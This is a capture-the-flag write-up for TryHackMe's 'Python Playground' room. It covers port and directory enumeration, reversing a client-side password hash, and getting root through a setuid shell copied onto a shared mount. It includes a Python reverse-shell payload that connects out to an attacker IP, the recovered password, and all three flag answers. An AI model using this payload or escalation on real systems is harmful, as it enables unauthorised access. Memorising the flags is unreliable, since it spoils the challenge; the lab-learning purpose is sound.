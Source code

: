 # Python Playground From TryHackMe

Be creative!

[Python Playground](https://tryhackme.com/room/pythonplayground)

## Topic's

- Network Enumeration
- Web Enumeration
- Web Poking
- Python Scripting (Decoder)
- Misconfigured Binaries

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Hack it!

Jump in and grab those flags! They can all be found in the usual places (/home/someuser and /root).

```
──(zenrage-a1105㉿ZenRage-A1105)-[~/thm]
└─$ sudo nmap -A -sS -sC -sV -O 10.10.192.182
[sudo] password for zenrage-a1105: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 20:20 IST
Nmap scan report for 10.10.192.182
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   239.31 ms 10.21.0.1
2   239.53 ms 10.10.192.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.97 seconds

```
[http://10.10.192.182/](http://10.10.192.182/)

[http://10.10.192.182/login.html](http://10.10.192.182/login.html)

[http://10.10.192.182/signup.html](http://10.10.192.182/signup.html)

```
kali@kali:~/CTFs/tryhackme/Python Playground$ gobuster dir -u http://10.10.251.33 -w /usr/share/dirb/wordlists/common.txt -x html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.251.33
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html
[+] Timeout:        10s
===============================================================
2020/10/18 13:54:29 Starting gobuster
===============================================================
/admin.html (Status: 200)
/index.html (Status: 200)
/index.html (Status: 200)
/login.html (Status: 200)
/signup.html (Status: 200)
===============================================================
2020/10/18 13:55:05 Finished
===============================================================
```

[http://10.10.251.33/admin.html](http://10.10.251.33/admin.html)

[view-source:http://10.10.251.33/admin.html](view-source:http://10.10.251.33/admin.html)

```html
<script>
  // I suck at server side code, luckily I know how to make things secure without it - Connor

  function string_to_int_array(str) {
    const intArr = [];

    for (let i = 0; i < str.length; i++) {
      const charcode = str.charCodeAt(i);

      const partA = Math.floor(charcode / 26);
      const partB = charcode % 26;

      intArr.push(partA);
      intArr.push(partB);
    }

    return intArr;
  }

  function int_array_to_text(int_array) {
    let txt = "";

    for (let i = 0; i < int_array.length; i++) {
      txt += String.fromCharCode(97 + int_array[i]);
    }

    return txt;
  }

  document.forms[0].onsubmit = function (e) {
    e.preventDefault();

    if (document.getElementById("username").value !== "connor") {
      document.getElementById("fail").style.display = "";
      return false;
    }

    const chosenPass = document.getElementById("inputPassword").value;

    const hash = int_array_to_text(
      string_to_int_array(int_array_to_text(string_to_int_array(chosenPass)))
    );

    if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu") {
      window.location = "super-secret-admin-testing-panel.html";
    } else {
      document.getElementById("fail").style.display = "";
    }
    return false;
  };
</script>
```

[http://10.10.251.33/super-secret-admin-testing-panel.html](http://10.10.251.33/super-secret-admin-testing-panel.html)

```py
def text_to_unicode(string):
    uni=[]
    for char in string:
         a=ord(char)
         a -= 97
         uni.append(str(a))
    return uni

def unicode_to_text(string):
    out=""
    for char in range(0,len(string),2):
         a = int(string[char])
         b = int(string[char +1])
         temp = a * 26
         temp += b
         out += chr(temp)
    return out

if __name__ == "__main__":
     hash="dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
     stri1 = text_to_unicode(hash)
     stri2 = unicode_to_text(stri1)
     stri3 = text_to_unicode(stri2)
     password = unicode_to_text(stri3)
     print(password)
```

`spaghetti1245`

```py
subprocess = __import__('subprocess')
os = __import__('os')
socket =  __import__('socket')

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```
kali@kali:~/CTFs/tryhackme/Python Playground$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.251.33] 44732
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# script -qc /bin/bash /dev/null
root@playgroundweb:~/app# ^Z
[1]+  Stopped                 nc -lnvp 9001
kali@kali:~/CTFs/tryhackme/Python Playground$ stty raw -echo
kali@kali:~/CTFs/tryhackme/Python Playground$ nc -lnvp 9001

root@playgroundweb:~/app# export TERM=screen
root@playgroundweb:~/app# cd /root
root@playgroundweb:~# ls
app  flag1.txt
root@playgroundweb:~# cat flag1.txt
THM{7e0b5cf043975e3c104a458a8d4f6f2f}
root@playgroundweb:~#
```

```
kali@kali:~/CTFs/tryhackme/Python Playground$ python3 getConnorPW.py
Connor's password is: spaghetti1245
```

```
connor@pythonplayground:~$ ls -la
total 36
drwxr-xr-x 4 connor connor 4096 May 16 06:05 .
drwxr-xr-x 3 root   root   4096 May 11 22:10 ..
-rw-r--r-- 1 connor connor  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 connor connor 3789 May 11 22:16 .bashrc
drwx------ 2 connor connor 4096 May 11 22:15 .cache
-rw-rw-r-- 1 connor connor   38 May 16 02:40 flag2.txt
drwx------ 3 connor connor 4096 May 11 22:15 .gnupg
-rw-r--r-- 1 connor connor  807 Apr  4  2018 .profile
-rw-rw-r-- 1 connor connor   40 May 11 22:19 .vimrc
connor@pythonplayground:~$ cat flag2.txt
THM{69a36d6f9da10d23ca0dbfdf6e691ec5}
```

```
root@playgroundweb:~# cp /bin/sh /mnt/log
root@playgroundweb:~# chmod +s /mnt/log/sh
root@playgroundweb:~# ls -l /mnt/log/sh
-rwsr-sr-x 1 root root 129816 Oct 18 12:13 /mnt/log/sh
root@playgroundweb:~#
```

```
connor@pythonplayground:~$ /var/log/sh -p
# cd root
/var/log/sh: 1: cd: can't cd to root
# cd /root/
# ls
flag3.txt
# cat flag3.txt
THM{be3adc69c25ad14eb79da4eb57925ad1}
```

1. What is flag 1?

`THM{7e0b5cf043975e3c104a458a8d4f6f2f}`

2. What is flag 2?

`THM{69a36d6f9da10d23ca0dbfdf6e691ec5}`

3. What is flag 3?

`THM{be3adc69c25ad14eb79da4eb57925ad1}`

